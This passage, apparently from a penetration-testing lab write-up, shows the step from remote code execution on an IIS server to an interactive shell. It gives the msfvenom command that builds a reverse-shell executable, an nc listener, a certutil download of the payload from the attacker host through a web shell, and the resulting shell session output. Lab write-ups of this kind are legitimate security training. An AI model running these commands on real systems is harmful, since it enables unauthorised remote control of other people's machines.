 Well done, we got RCE with the IIS AppPool user `defaultapppool`, let's try to get a shell

# 4. Getting a Shell

Generate reverse shell executable and place in web server root:

(Apache2 is already running with DocumentRoot at /var/www/html)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Use the web shell to download the reverse shell executable:

> Target a folder that our RCE user should have writabled rights to (e.g. `%TEMP%` or `%PUBLIC%`)

```console
certutil.exe /urlcache /f /split http://kali.vx/reverse.exe %TEMP%\reverse.exe
```

Use the web shell to run the reverse shell executable:

```console
%TEMP%\reverse.exe
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.33] 49329
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
```